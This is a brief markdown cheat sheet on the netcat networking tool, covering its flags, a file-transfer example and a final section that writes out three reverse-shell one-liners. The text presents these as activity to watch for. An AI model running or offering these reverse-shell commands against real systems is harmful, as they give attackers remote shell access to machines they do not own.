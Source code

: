 ```yaml
---
title: 'CheetSheet: netcat'
date: '2022-09-20'
---
```

- ## Netcat
	---
	Netcat is a networking tool that can provide simple network connections to read or write data between remote endpoints. This tool is useful for troubleshooting networks, exploring remote resources, and creating ad-hoc communication channels.

	Unexpected use of this utility may be an indicator of malicious activity.

- ## Basic Usage
	---
	```
	// Arbitrary TCP and UDP connections and listens.
	nc [options] <hostname> <dest_port(s)> 
	```

- ## Common Flags
	---
	[-4] Forces nc to use IPv4 addresses.
	
	[-6] Forces nc to use IPv6 addresses.
	
	[-i] Interval, specifies a delay time interval betweens lines of text sent/recieved.
	
	[-k] Forces nc to stay listening for another connection after its current connection is completed.
	
	[-l] Listen for connections.
	
	[-n] Do not make and DNS/service lookups on specified addresses, hostnames, or ports.
	
	[-p] Source Port
	
	[-r] Select source/destination ports randomly instead of sequentially.
	
	[-s] Source IP Address
	
	[-u] Use UDP instead of TCP.
	
	[-w] Timeout, silently close connection if connection/stdin are idle for more than timeout seconds.

- ## File Transfers
	---
	```
	// On the file recipient.
	nc -l -p 40000 > out.file
	
	// On the file sender.
	nc -w 3 10.10.10.10 40000 < in.file
	```

- ## Reverse Shell
	---
	This activity is highly unsual for a network admin to perform. If the following commands are observed, they should be viewed with extreme caution. I recommend establishing connections with more traditional methods for day-to-day admin activity.
	```
	// Standard
	nc -e /bin/sh 10.0.0.1 40001
	
	// -e is not available, OpenBSD
	nc 10.0.0.2 40002 | /bin/bash | nc 10.0.0.2 40002
	
	// -e is not available
	rm /tmp/f; mkfifo /tmp/f; cat tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.3 40003 > /tmp/f
	```
